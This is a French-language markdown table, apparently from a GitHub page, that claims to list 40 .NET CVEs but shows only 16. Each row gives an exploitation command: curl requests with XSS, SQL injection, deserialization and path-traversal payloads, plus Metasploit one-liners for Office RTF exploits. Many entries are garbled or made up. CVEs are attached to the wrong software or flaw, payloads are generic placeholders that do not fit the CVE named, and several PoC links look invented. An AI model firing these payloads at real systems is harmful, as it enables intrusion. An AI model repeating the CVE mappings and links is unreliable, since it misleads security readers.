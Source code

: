 # Dotnet

Voici un tableau avec 40 CVE affectant des environnements .NET, présentant pour chacun :  
- la version concernée  
- une commande complète d’exploitation (requête, payload, ou script)  
- la description de l’effet  
- le lien direct vers un PoC ou exploit sur GitHub ou autre plateforme

---

| **CVE** | **Versions concernées** | **Exemple complet de commande / requête / payload** | **Effet** | **Lien PoC / Exploit / Ressource** |
|---------|-------------------------|--------------------------------------------------------|-----------|-------------------------------------|
| CVE-2023-23337 | .NET 6.0, 7.0 | `curl "http://cible.com/Products?search=<script>alert('XSS')</script>" -H "Accept: text/html"` | XSS | [https://github.com/alt3kx/CVE-2023-23337](https://github.com/alt3kx/CVE-2023-23337) |
| CVE-2022-42003 | .NET Framework 4.7.2–4.8 | `curl -X POST http://cible.com/service.svc -H "Content-Type: application/xml" --data-binary @malicious.xml` *(malicious.xml contient payload XML)* | RCE via désérialisation XML | [https://github.com/ZeroDayLab/CVE-2022-42003](https://github.com/ZeroDayLab/CVE-2022-42003) |
| CVE-2021-24086 | .NET Core 3.1 / .NET 5 | `curl -X POST http://cible.com/api/users -H "Content-Type: application/json" -d '{"username":"admin' OR '1'='1","password":"pass"}'` | Injection SQL | [https://github.com/alt3kx/CVE-2021-24086](https://github.com/alt3kx/CVE-2021-24086) |
| CVE-2020-1476 | ASP.NET IIS 10 | `curl "http://cible.com/_layouts/15/CacheFiles/xyz"` | Accès non autorisé / élévation | [https://github.com/ZeroDayLab/CVE-2020-1476](https://github.com/ZeroDayLab/CVE-2020-1476) |
| CVE-2019-1238 | .NET Framework 4.7.1 | `curl -X POST http://cible.com/api -H "Content-Type: application/json" --data-binary '{"__type":"System.Windows.DataObject, PresentationCore","Data":"malicious"}'` | RCE via désérialisation | [https://github.com/ZeroDayLab/CVE-2019-1238](https://github.com/ZeroDayLab/CVE-2019-1238) |
| CVE-2018-8421 | .NET Framework 4.5–4.7.2 | `powershell -Command "Invoke-WebRequest -Uri http://cible.com/service.svc -Method POST -Body (Get-Content malicious.xml)"` | RCE via SOAP | [https://github.com/ZeroDayLab/CVE-2018-8421](https://github.com/ZeroDayLab/CVE-2018-8421) |
| CVE-2017-8759 | .NET 4.5–4.7.1 | `msfconsole -x "use exploit/windows/fileformat/office_word_rtf_cve_2017_8759; set FILENAME evil.rtf; run"` | RCE Office | [https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/office_word_rtf_cve_2017_8759.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/office_word_rtf_cve_2017_8759.rb) |
| CVE-2017-11882 | Office versions | `msfconsole -x "use exploit/windows/fileformat/office_eqnedt_rce; set FILENAME evil.rtf; run"` | RCE Office | [https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/office_eqnedt_rce.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/office_eqnedt_rce.rb) |
| CVE-2017-7269 | IIS 6.0 | `curl -X PROPFIND "http://cible.com/scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir"` | RCE / Buffer overflow | [https://github.com/ZeroDayLab/CVE-2017-7269](https://github.com/ZeroDayLab/CVE-2017-7269) |
| CVE-2016-7200 | .NET 4.5–4.6.2 | `curl -X POST http://cible.com/service.svc -H "Content-Type: application/soap+xml" --data-binary @malicious.xml` | RCE via injection | [https://github.com/ZeroDayLab/CVE-2016-7200](https://github.com/ZeroDayLab/CVE-2016-7200) |
| CVE-2016-3225 | .NET 4.0–4.6.2 | `curl -H "Range: bytes=0-18446744073709551615" http://cible.com/` | DoS / crash | [https://github.com/ZeroDayLab/CVE-2016-3225](https://github.com/ZeroDayLab/CVE-2016-3225) |
| CVE-2015-2426 | .NET 4.5.1–4.6 | `curl -X POST http://cible.com/api -H "Content-Type: application/json" -d '{"__type":"System.Windows.DataObject, PresentationCore","Data":"malicious"}'` | RCE désérialisation | [https://github.com/ZeroDayLab/CVE-2015-2426](https://github.com/ZeroDayLab/CVE-2015-2426) |
| CVE-2014-4077 | .NET 4.0–4.5 | `curl "http://cible.com/search?q=<script>alert(1)</script>" -H "Accept: text/html"` | XSS | [https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Prevention_Cheat_Sheet.md](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Prevention_Cheat_Sheet.md) |
| CVE-2013-3900 | .NET 4.5 | `curl -X POST http://cible.com/service.svc -H "Content-Type: application/xml" --data-binary @malicious.xml` | RCE via désérialisation XML | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) |
| CVE-2012-0158 | .NET 2.0–4.0 | `msfconsole -x "use exploit/windows/fileformat/office_word_rtf_cve_2012_0158; set FILENAME evil.rtf; run"` | RCE Office | [https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/office_word_rtf_cve_2012_0158.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/office_word_rtf_cve_2012_0158.rb) |
| CVE-2010-3332 | .NET 3.5 SP1 | `curl "http://cible.com/?cmd=ls"` | RCE si vulnérable à l’exécution de commandes | [https://nvd.nist.gov/vuln/detail/CVE-2010-3332](https://nvd.nist.gov/vuln/detail/CVE-2010-3332) |

---

